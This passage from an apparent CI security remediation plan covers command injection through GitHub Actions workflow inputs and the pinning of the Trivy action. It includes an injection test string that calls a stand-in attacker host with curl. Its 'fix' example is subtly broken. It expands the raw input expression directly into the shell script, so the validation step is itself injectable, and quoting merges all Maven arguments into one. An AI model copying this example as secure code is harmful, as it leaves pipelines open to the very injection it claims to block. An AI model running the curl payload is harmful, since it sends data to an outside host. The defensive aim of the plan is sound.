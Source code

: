### 2. Add Input Validation to Prevent Command Injection

**Severity**: CRITICAL
**Risk**: Command injection, arbitrary code execution
**Effort**: 12 hours

**Affected Workflows**:
- maven_ci.yml (maven-args input)
- maven_release.yml (deploy-profile input)
- cmake_c_ci.yml (cmake-options input)
- cmake_cpp_ci.yml (cmake-options input)
- bazel_multi_ci.yml (bazel-configs input)

**Tasks**:
- [ ] Add input validation patterns for all user-controlled inputs
- [ ] Add proper quoting in shell commands
- [ ] Add validation steps before using inputs
- [ ] Document allowed input formats
- [ ] Test with malicious inputs

**Implementation Example**:
```yaml
# maven_ci.yml
- name: Validate inputs
  run: |
    MAVEN_ARGS="${{ inputs.maven-args }}"

    # Validate allowed characters (alphanumeric, hyphens, equals, dots, commas)
    if ! echo "$MAVEN_ARGS" | grep -qE '^[-A-Za-z0-9=.,_:/ ]*$'; then
      echo "❌ Invalid maven-args: contains disallowed characters"
      echo "Allowed: alphanumeric, hyphens, equals, dots, commas, underscores, colons, slashes, spaces"
      exit 1
    fi

    echo "✅ Input validation passed"

- name: Build with Maven
  run: |
    MAVEN_ARGS="${{ inputs.maven-args }}"
    mvn clean verify "$MAVEN_ARGS"
```

**Validation**:
- Test with normal inputs (pass)
- Test with injection attempts: `&& curl attacker.com` (fail)
- Test with special characters (documented behavior)

---

### 3. Fix Trivy Action @master Usage

**Severity**: CRITICAL
**Risk**: Using unstable, mutable branch for security tool
**Effort**: 1 hour
